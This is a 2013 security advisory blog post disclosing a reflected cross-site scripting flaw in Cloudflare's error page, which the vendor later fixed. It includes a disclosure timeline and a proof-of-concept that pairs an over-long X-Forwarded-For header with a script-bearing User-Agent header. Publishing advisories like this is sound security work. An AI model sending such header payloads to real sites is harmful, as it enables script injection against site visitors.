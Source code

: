 ```yaml
---
layout: post
title: "[DAHAX-2013-001] Cloudflare XSS Vulnerability"
date: '2013-08-14T15:00:00-07:00'
tags:
- dahax-2013-001
- dahax
- '2013'
- vulnerability
- notification
- cloudflare
- xss
- x-forwarded-for
- user-agent
tumblr_url: http://devalias.tumblr.com/post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
redirect_from: /post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
---
```

**Reference Number:** DAHAX-2013-001 (/dev/alias/hacks 2013-001)

### Notification Timeline

* 10/07/2013, Request# 38713 (https://support.cloudflare.com/anonymous_requests/new)
* 10/07/2013, Vendor looking into issue
* 16/07/2013, Updated vendor with new details (Length: 101 instead of 72)
* 16/07/2013, Vendor requested that I test again
* No response from vendor
* 01/08/2013, Tested again, vulnerability fixed
* 22/08/2013, Posted details to full-disclosure
* 22/08/2013, Vendor confirmed issue has been fixed

**Details Published:** 14/08/2013 (http://blog.devalias.net)

## What?

* Reflected XSS (cross site scripting) attack

## Where's Affected?

* Theoretically it seems that any page that uses cloudflare will be affected.
  * Eg: [http://www.cloudflare.com/](https://www.cloudflare.com/)

## How?

* **To bring up the vulnerable page**
  * Set your X-Forwarded-For header to 101+ characters
  * Eg:

```
X-Forwarded-For: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJK
```

* Load a site using cloudflare
* You should end up on "DNS Points to Prohibited IP" page
  * **To trigger the XSS**
* Set your User-Agent string to the XSS attack
  * Eg:

```
User-Agent: USER-AGENT being tested for XSS..<script>alert(''Vulnerable to XSS via USER-AGENT header [Found by devalias.net]'')</script>
```

* **The whole attack**
  * Ensure your X-Forwarded-For and User-Agent headers are configured as above
  * Navigate to a page using cloudflare
  * ???
  * Profit!

## Who?

Discovered by [Glenn 'devalias' Grant](http://www.devalias.net/) (glenn@devalias.net)

## Responsible Disclosure Notice

* Following in the footsteps of Google's vulnerability disclosure timeline, unless otherwise agreed to beforehand, I reserve the right to publicly announce the details of any discovered vulnerabilities 7 days post notification.
  * **Google's Rationale:** "Seven days is an aggressive timeline and may be too short for some vendors to update their products, but it should be enough time to publish advice about possible mitigations, such as temporarily disabling a service, restricting access, or contacting the vendor for more information. As a result, after 7 days have elapsed without a patch or advisory, we will support researchers making details available so that users can take steps to protect themselves. By holding ourselves to the same standard, we hope to improve both the state of web security and the coordination of vulnerability management." - [Google](https://googleonlinesecurity.blogspot.com.au/2013/05/disclosure-timeline-for-vulnerabilities.html)
